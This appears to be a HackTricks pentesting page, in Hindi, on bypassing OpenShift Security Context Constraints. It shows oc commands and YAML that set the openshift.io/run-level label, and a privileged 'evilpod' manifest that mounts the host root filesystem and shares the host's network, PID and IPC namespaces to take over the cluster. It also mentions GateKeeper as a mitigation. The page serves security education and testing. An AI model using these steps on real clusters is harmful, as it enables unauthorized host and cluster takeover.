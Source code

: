 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**इस पृष्ठ के मूल लेखक हैं** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

डिफ़ॉल्ट रूप से, SCC निम्नलिखित परियोजनाओं पर लागू नहीं होता है:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

यदि आप इन नामस्थान में से किसी एक के भीतर पॉड तैनात करते हैं, तो कोई SCC लागू नहीं होगा, जिससे विशेषाधिकार प्राप्त पॉड्स की तैनाती या होस्ट फ़ाइल सिस्टम को माउंट करने की अनुमति मिलेगी।

## Namespace Label

RedHat दस्तावेज़ के अनुसार, आपके पॉड पर SCC एप्लिकेशन को अक्षम करने का एक तरीका है। आपको निम्नलिखित में से कम से कम एक अनुमति होनी चाहिए:

- एक Namespace बनाना और इस Namespace पर एक Pod बनाना
- एक Namespace संपादित करना और इस Namespace पर एक Pod बनाना
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
विशिष्ट लेबल `openshift.io/run-level` उपयोगकर्ताओं को अनुप्रयोगों के लिए SCCs को दरकिनार करने की अनुमति देता है। RedHat दस्तावेज़ के अनुसार, जब इस लेबल का उपयोग किया जाता है, तो उस नामस्थान के भीतर सभी पॉड्स पर कोई SCCs लागू नहीं होते हैं, प्रभावी रूप से किसी भी प्रतिबंध को हटा देते हैं।

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## लेबल जोड़ें

अपने नामस्थान में लेबल जोड़ने के लिए:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAML फ़ाइल के माध्यम से लेबल के साथ एक नामस्थान बनाने के लिए:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
अब, नामस्थान पर बनाए गए सभी नए पॉड्स के पास कोई SCC नहीं होना चाहिए

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC की अनुपस्थिति में, आपके पॉड परिभाषा पर कोई प्रतिबंध नहीं हैं। इसका मतलब है कि एक दुर्भावनापूर्ण पॉड को आसानी से बनाया जा सकता है ताकि वह होस्ट सिस्टम पर भाग सके।
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
अब, होस्ट सिस्टम तक पहुंच के लिए विशेषाधिकार बढ़ाना और इसके बाद पूरे क्लस्टर पर नियंत्रण प्राप्त करना, 'cluster-admin' विशेषाधिकार प्राप्त करना आसान हो गया है। निम्नलिखित पृष्ठ में **Node-Post Exploitation** भाग देखें:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### कस्टम लेबल

इसके अलावा, लक्षित सेटअप के आधार पर, कुछ कस्टम लेबल / एनोटेशन का उपयोग पिछले हमले के परिदृश्य के समान किया जा सकता है। भले ही यह इसके लिए नहीं बनाया गया हो, लेबल का उपयोग अनुमतियाँ देने, किसी विशेष संसाधन को प्रतिबंधित करने या न करने के लिए किया जा सकता है।

यदि आप कुछ संसाधनों को पढ़ सकते हैं तो कस्टम लेबल की तलाश करें। यहाँ कुछ दिलचस्प संसाधनों की सूची है:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## सभी विशेषाधिकार प्राप्त नामस्थान सूचीबद्ध करें
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

OpenShift में, जैसा कि पहले दिखाया गया है, `openshift.io/run-level` लेबल के साथ एक namespace में pod को तैनात करने की अनुमति होना क्लस्टर का सीधा अधिग्रहण करने की ओर ले जा सकता है। क्लस्टर सेटिंग्स के दृष्टिकोण से, यह कार्यक्षमता **निष्क्रिय नहीं की जा सकती**, क्योंकि यह OpenShift के डिज़ाइन में अंतर्निहित है।

हालांकि, **Open Policy Agent GateKeeper** जैसी रोकथाम उपाय उपयोगकर्ताओं को इस लेबल को सेट करने से रोक सकते हैं।

GateKeeper के नियमों को बायपास करने और इस लेबल को सेट करने के लिए क्लस्टर अधिग्रहण को निष्पादित करने के लिए, **हमलावरों को वैकल्पिक तरीकों की पहचान करनी होगी।**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}

